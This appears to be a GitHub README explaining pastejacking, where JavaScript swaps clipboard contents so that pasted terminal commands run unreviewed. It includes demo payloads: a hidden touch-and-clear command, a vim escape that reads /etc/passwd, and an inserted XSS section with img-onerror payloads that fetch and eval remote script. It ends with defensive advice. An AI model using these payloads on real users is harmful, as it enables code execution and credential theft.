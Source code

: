 # Pastejacking

Browsers [now allow](https://developer.mozilla.org/en-US/docs/Web/API/Document/execCommand) developers to automatically add content to a user's clipboard, following certain conditions. Namely, this can only be triggered on browser events. This post details how you can exploit this to trick a user into running commands they didn't want to get ran, and gain code execution.

It should also be noted, for some time similar attacks have been possible via [html/css](https://thejh.net/misc/website-terminal-copy-paste). What's different about this is the text can be copied after an event, it can be copied on a short timer following an event, and it's easier to copy in hex characters into the clipboard, which can be used to exploit VIM, all shown below.

## Demo

Here is a demo of a website that entices a user to copy an innocent looking command https://security.love/Pastejacking

This demo uses JavaScript to hook into the copy event, which will fire via ctrl+c or right-click copy. Right now this demo does works in Chrome, Firefox, and Safari but not with Internet Explorer, however there is a demo below which is IE compatible.

```bash
echo "not evil"
```

Will be replaced with

```bash
echo "evil"\r\n
```

## shiky8  xss Demo

alert payload 

```js
s </p>
<img src="http://127.0.0.1/xss.js" onerror="fetch('http://127.0.0.1/xss.js').then(response => response.text()).then(eval)">
<p>
```

Pastejacking payload 

```js
s2 </p>
<img src="http://127.0.0.1/xss.js" onerror="fetch('http://127.0.0.1/xss2.js').then(response => response.text()).then(eval)">
<p>
```

Note the newline character gets appended to the end of the line. When a user goes to paste the echo command into their terminal, "evil" will automatically get echoed to the screen without giving the user a chance to review the command before it executes. 

[This demo](https://security.love/Pastejacking/index1.html) hooks into the keydown event, so if a user uses keyboard shortcuts, i.e. ctrl+c or command+c, an 800ms timer gets set that will override the user's clipboard with malicious code. This demo works in Chrome, Firefox, and Internet Explorer, but is not compatable with Safari.


More sophisticated payloads that hide themselves can also be used, such as something [demoed here](https://security.love/Pastejacking/index3.html) and seen below

```bash
touch ~/.evil
clear
echo "not evil"
```

This command will create an evil file in your home directory and clear the terminal out. The victim appears to have the command they intended to copy, nicely pasted into the terminal.


## Impact
This method can be combined with a phishing attack to entice users into running seemingly innocent commands. The malicious code will override the innocent code, and the attacker can gain remote code execution on the user's host if the user pastes the contents into the terminal.

## How do you protect yourself?
This is not so straight forward. One solution may be to verify the contents of your clipboard before pasting into a terminal, but be careful where you verify these commands. For example if you paste into vim, vim macros may be used to exploit you. An example of this can be seen [in this demo](https://security.love/Pastejacking/index2.html) and below

```javascript
copyTextToClipboard('echo "evil"\n \x1b:!cat /etc/passwd\n');
```

This demo **echo evil** when pasted in terminal, and it will cat the user's /etc/passwd file when pasted into vim.

One solution around this can be seen below

```bash
"+p       -- within vim to paste clipboard without interpreting as vim command
```

If you're running iTerm, you will actually get warned if the command ends with a newline as seen here:

![iTerm](http://i.imgur.com/W8pweF1.png) 

Of course it goes without saying, take note of the source you're pasting from, and exercise additional caution if pasting from questionable sources.

